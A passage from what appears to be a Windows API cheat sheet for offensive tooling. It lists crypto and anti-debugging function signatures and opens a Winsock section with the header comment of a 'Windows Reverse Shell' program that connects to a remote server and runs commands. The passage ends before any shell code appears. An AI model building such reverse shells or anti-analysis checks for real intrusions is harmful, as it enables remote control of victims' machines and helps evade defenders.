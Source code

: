 [CryptDecryptMessage](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecryptmessage)
```c
BOOL CryptDecryptMessage(
  [in]                PCRYPT_DECRYPT_MESSAGE_PARA pDecryptPara,
  [in]                const BYTE                  *pbEncryptedBlob,
  [in]                DWORD                       cbEncryptedBlob,
  [out, optional]     BYTE                        *pbDecrypted,
  [in, out, optional] DWORD                       *pcbDecrypted,
  [out, optional]     PCCERT_CONTEXT              *ppXchgCert
); // The CryptDecryptMessage function decodes and decrypts a message.
```
[CryptEncryptMessage]()
```c
BOOL CryptEncryptMessage(
  [in]      PCRYPT_ENCRYPT_MESSAGE_PARA pEncryptPara,
  [in]      DWORD                       cRecipientCert,
  [in]      PCCERT_CONTEXT []           rgpRecipientCert,
  [in]      const BYTE                  *pbToBeEncrypted,
  [in]      DWORD                       cbToBeEncrypted,
  [out]     BYTE                        *pbEncryptedBlob,
  [in, out] DWORD                       *pcbEncryptedBlob
); // The CryptEncryptMessage function encrypts and encodes a message.
```

### Debugging
[IsDebuggerPresent](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent)
```c
BOOL IsDebuggerPresent(); // Determines whether the calling process is being debugged by a user-mode debugger.
```
[CheckRemoteDebuggerPresent](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-checkremotedebuggerpresent)
```c
BOOL CheckRemoteDebuggerPresent(
  [in]      HANDLE hProcess,
  [in, out] PBOOL  pbDebuggerPresent
); // Determines whether the specified process is being debugged.
```
[OutputDebugStringA](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-outputdebugstringa)
```c
void OutputDebugStringA(
  [in, optional] LPCSTR lpOutputString
); // Sends a string to the debugger for display.
```

### Winsock
```c
/*** Windows Reverse Shell
 * 
 *   ██████  ███▄    █  ▒█████   █     █░ ▄████▄   ██▀███   ▄▄▄        ██████  ██░ ██
 * ▒██    ▒  ██ ▀█   █ ▒██▒  ██▒▓█░ █ ░█░▒██▀ ▀█  ▓██ ▒ ██▒▒████▄    ▒██    ▒ ▓██░ ██▒
 * ░ ▓██▄   ▓██  ▀█ ██▒▒██░  ██▒▒█░ █ ░█ ▒▓█    ▄ ▓██ ░▄█ ▒▒██  ▀█▄  ░ ▓██▄   ▒██▀▀██░
 *   ▒   ██▒▓██▒  ▐▌██▒▒██   ██░░█░ █ ░█ ▒▓▓▄ ▄██▒▒██▀▀█▄  ░██▄▄▄▄██   ▒   ██▒░▓█ ░██
 * ▒██████▒▒▒██░   ▓██░░ ████▓▒░░░██▒██▓ ▒ ▓███▀ ░░██▓ ▒██▒ ▓█   ▓██▒▒██████▒▒░▓█▒░██▓
 * ▒ ▒▓▒ ▒ ░░ ▒░   ▒ ▒ ░ ▒░▒░▒░ ░ ▓░▒ ▒  ░ ░▒ ▒  ░░ ▒▓ ░▒▓░ ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒
 * ░ ░▒  ░ ░░ ░░   ░ ▒░  ░ ▒ ▒░   ▒ ░ ░    ░  ▒     ░▒ ░ ▒░  ▒   ▒▒ ░░ ░▒  ░ ░ ▒ ░▒░ ░
 * ░  ░  ░     ░   ░ ░ ░ ░ ░ ▒    ░   ░  ░          ░░   ░   ░   ▒   ░  ░  ░   ░  ░░ ░
 *       ░           ░     ░ ░      ░    ░ ░         ░           ░  ░      ░   ░  ░  ░
 *                                   Written by: snowcra5h@icloud.com (snowcra5h) 2023
 *
 * This program establishes a reverse shell via the Winsock2 library. It is
 * designed to establish a connection to a specified remote server, and execute commands
```